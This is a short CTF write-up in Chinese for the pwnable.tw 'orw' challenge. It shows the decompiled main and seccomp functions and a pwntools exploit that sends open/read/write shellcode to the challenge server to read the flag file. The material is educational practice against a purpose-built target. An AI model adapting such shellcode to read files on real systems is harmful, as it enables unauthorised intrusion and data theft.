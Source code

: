 ```yaml
---
title: pwnable.tw::orw
date: 2023-10-17 21:29:57
tags: pwn
---
```


## 保護機制
Canary, Partial RELRO

## 分析
### main
<!-- more -->
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```
### orw_seccomp
```c
unsigned int orw_seccomp()
{
  __int16 v1; // [esp+4h] [ebp-84h]
  char *v2; // [esp+8h] [ebp-80h]
  char v3; // [esp+Ch] [ebp-7Ch]
  unsigned int v4; // [esp+6Ch] [ebp-1Ch]

  v4 = __readgsdword(0x14u);
  qmemcpy(&v3, &unk_8048640, 0x60u);
  v1 = 12;
  v2 = &v3;
  prctl(38, 1, 0, 0, 0);
  prctl(22, 2, &v1);
  return __readgsdword(0x14u) ^ v4;
}
```
在C語言有一種”SandBox模式”, 限制程式只能使用 `open()`, `read()`, `write()`

可以通過`seccomp()` 或是`prctl()`開啟

所以這裡的邏輯不重要, 只要知道只能 open, read, write就好

也不用繞canary, 因為沒有Control PC

## exploit
```python
#!/usr/bin/env python2 

from pwn import *
import pwnlib.shellcraft

p = remote('chall.pwnable.tw', 10001)

context.log_level = 'debug'

shellcode = shellcraft.i386.pushstr('/home/orw/flag')
shellcode += shellcraft.i386.linux.syscall('SYS_open', 'esp')
shellcode += shellcraft.i386.linux.syscall('SYS_read', 'eax', 'esp', 0x50)
shellcode += shellcraft.i386.linux.syscall('SYS_write', 1, 'esp', 0x50)

p.sendlineafter('Give my your shellcode:', asm(shellcode))

print p.recv()

p.close()
```